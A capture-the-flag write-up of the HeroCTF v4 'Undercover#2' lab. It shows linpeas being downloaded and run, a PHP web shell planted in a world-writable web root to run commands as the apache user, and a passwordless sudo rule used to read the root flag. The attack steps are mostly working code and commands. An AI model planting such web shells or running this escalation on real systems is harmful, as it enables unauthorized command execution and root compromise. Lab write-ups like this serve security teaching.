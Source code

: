 # HeroCTF v4

## System

### Undercover#2

**Difficulty:** Medium

**Statement:** Now that you proved yourself, You have to assess the security of one of their developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are: `user1:password123`

***

Once connected, I start by searching for a local vulnerability with **linpeas** :

```
# user1@1e2ce5f20fec:/tmp$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh
# user1@1e2ce5f20fec:/tmp$ ./linpeas.sh
```

Through this, I notice several points:
- The apache2 service is running with the dev user
```
root           1  0.0  0.0  18388  3080 ?        Ss   10:56   0:00 /bin/bash /root/start.sh
root           7  0.0  0.0   4640   876 ?        S    10:56   0:00 /bin/sh /usr/sbin/apachectl -D FOREGROUND
root          11  0.0  0.1 327136 21108 ?        S    10:56   0:00  _ /usr/sbin/apache2 -D FOREGROUND
dev           12  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           13  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           14  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           15  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           16  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
root          10  0.0  0.0  72312  5776 ?        S    10:56   0:00 /usr/sbin/sshd -D
user1         28  0.0  0.0 103864  3480 ?        S    10:57   0:00      _ sshd: user1@pts/0
user1         29  0.0  0.0  20368  3952 pts/0    Ss   10:57   0:00          _ -bash
user1         41  1.2  0.0   5480  2700 pts/0    S+   11:00   0:00              _ /bin/sh ./linpeas.sh
user1       2838  0.0  0.0   5480   968 pts/0    S+   11:00   0:00                  _ /bin/sh ./linpeas.sh
user1       2841  0.0  0.0  36164  3340 pts/0    R+   11:00   0:00                  |   _ ps fauxwww
user1       2842  0.0  0.0   5480   968 pts/0    S+   11:00   0:00                  _ /bin/sh ./linpeas.sh
```
- The /var/www/html directory is read/write for everyone
```
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

So I decide to create a `shell.php` in `/var/www/html/` with the following content in order to execute commands through the **cmd** parameter with the rights of the dev user :

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

I check that the commands are executed with the user dev :

```
# user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=id
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
uid=1000(dev) gid=1000(dev) groups=1000(dev)
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

I check if the dev user has any authorized commands via sudo :

```
# user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=sudo%20-l
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
Matching Defaults entries for dev on 1e2ce5f20fec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on 1e2ce5f20fec:
    (ALL) NOPASSWD: ALL
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

We can see the value `(ALL) NOPASSWD: ALL`, which means that we can execute all sudo commands without password.

I just have to get the flag in the root directory :

```
user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=sudo%20cat%20/root/flag.txt
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
Hero{3w-d4ta_1s_n0t_us3l3s5}</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Flag: Hero{3w-d4ta_1s_n0t_us3l3s5}
